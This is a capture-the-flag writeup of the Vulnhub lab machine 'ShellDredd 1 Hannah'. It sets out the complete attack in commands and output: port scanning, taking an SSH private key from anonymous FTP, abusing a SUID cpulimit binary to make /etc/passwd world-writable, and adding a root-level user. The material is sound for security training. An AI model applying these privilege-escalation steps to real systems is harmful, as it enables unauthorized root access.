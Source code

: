 ```yaml
---
title: Vulnhub - OnSystem ShellDredd 1 Hannah
description: My writeup on OnSystem ShellDredd 1 Hannah box.
categories:
 - vulnhub
tags: vulnhub ssh etcpasswd cpulimit
---
```


![](https://i.imgur.com/LeUKXhe.png)

You can find the machine there > [OnSystem ShellDredd #1 Hannah](https://www.vulnhub.com/entry/onsystem-shelldredd-1-hannah,545/){:target="_blank"}

## Summary

This box was a really easy one, starting off by login into FTP anonymous and grab hannah's SSH private key this will give us a low low-privilege shell. Rooting the box is a bit tricky because the cpulimit SUID doesn't allow us to spawn a root shell directly. Let's pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.7 
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-15 12:59 EEST
Nmap scan report for shelldredd.zte.com.cn (192.168.1.7)
Host is up (0.00016s latency).
Not shown: 65533 closed ports
PORT      STATE SERVICE
21/tcp    open  ftp
61000/tcp open  unknown
MAC Address: 08:00:27:F6:95:7A (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.40 seconds
$ nmap -p 21,61000 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-15 12:59 EEST
Nmap scan report for shelldredd.zte.com.cn (192.168.1.7)
Host is up (0.00038s latency).

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.1.18
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
61000/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 59:2d:21:0c:2f:af:9d:5a:7b:3e:a4:27:aa:37:89:08 (RSA)
|   256 59:26:da:44:3b:97:d2:30:b1:9b:9b:02:74:8b:87:58 (ECDSA)
|_  256 8e:ad:10:4f:e3:3e:65:28:40:cb:5b:bf:1d:24:7f:17 (ED25519)
```

No web stuff interesting, let's login into FTP since we have anonymous. There we can find a SSH private key.

```
$ ftp $ip
Connected to 192.168.1.7.
220 (vsFTPd 3.0.3)
Name (192.168.1.7:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 0        115          4096 Aug 06 16:56 .
drwxr-xr-x    3 0        115          4096 Aug 06 16:56 ..
drwxr-xr-x    2 0        0            4096 Aug 06 16:54 .hannah
226 Directory send OK.
ftp> cd .hannah
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0            1823 Aug 06 16:54 id_rsa
226 Directory send OK.
ftp> get id_rsa
local: id_rsa remote: id_rsa
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for id_rsa (1823 bytes).
226 Transfer complete.
1823 bytes received in 0.00 secs (2.0599 MB/s)
```

## Shell as hannah

Since the key is in hannah's folder, we have the username and now we can login in.

```
$ chmod 600 id_rsa 
$ ssh -i id_rsa hannah@$ip -p 61000

hannah@ShellDredd:~$ whoami;id
hannah
uid=1000(hannah) gid=1000(hannah) grupos=1000(hannah),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
```

## Shell as root

Doing the classic enumeration, i found out an interesting SUID.

```
hannah@ShellDredd:~$ find / -uid 0 -perm -4000 -type f 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/mawk
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/cpulimit
/usr/bin/mount
/usr/bin/passwd
```

I checked the [gtfobins](https://gtfobins.github.io/gtfobins/cpulimit/){:target="_blank"} page but there is no SUID option.. hm anyway i tried to execute the same command but no luck gaining a root shell.

```
hannah@ShellDredd:~$ cpulimit -l 100 -f /bin/sh
Process 667 detected
$ whoami
hannah
```

But if we run an another command like "whoami" we can get command execution as root!

```
hannah@ShellDredd:~$ cpulimit -l 100 -f whoami
Process 671 detected
root
Child process is finished, exiting...
```

So now i found a way to gain root shell, i'll make `/etc/passwd` writable and we will add a root user in! :sunglasses:

```
hannah@ShellDredd:~$ cpulimit -l 100 -f chmod o+w /etc/passwd
Process 678 detected
Child process is finished, exiting...
hannah@ShellDredd:~$ ls -la /etc/passwd
-rw-r--rw- 1 root root 1541 ago  6 16:43 /etc/passwd
```

Let's generate a password now for the user.

```
$ openssl passwd -6 -salt xyz pwned    
$6$xyz$5I4IoAWqNNcGCYvBCeIz0UZr5NoOPvvHrwR9B1AX7.1fYnHX3clTDW9YRVi3TYivXiJ8Mb8clrGt7.gTxZGXb1
```

This will be our "payload":

```
pwned:$6$xyz$5I4IoAWqNNcGCYvBCeIz0UZr5NoOPvvHrwR9B1AX7.1fYnHX3clTDW9YRVi3TYivXiJ8Mb8clrGt7.gTxZGXb1:0:0::/root:/bin/bash
```

Let's add it in & get root shell! :fire:

```
hannah@ShellDredd:~$ nano /etc/passwd
hannah@ShellDredd:~$ cat /etc/passwd | tail -1
pwned:$6$xyz$5I4IoAWqNNcGCYvBCeIz0UZr5NoOPvvHrwR9B1AX7.1fYnHX3clTDW9YRVi3TYivXiJ8Mb8clrGt7.gTxZGXb1:0:0::/root:/bin/bash
hannah@ShellDredd:~$ su - pwned
Contraseña: 
root@ShellDredd:~# whoami;id
root
uid=0(root) gid=0(root) grupos=0(root)
```

Let's read the flags:

```
root@ShellDredd:~# cat root.txt 
yeZCB44MPH2KQwbssgTQ2Nof
root@ShellDredd:~# cat /home/hannah/user.txt 
Gr3mMhbCpuwxCZorqDL3ILPn
```

Enjoyed this privesc! :smile:

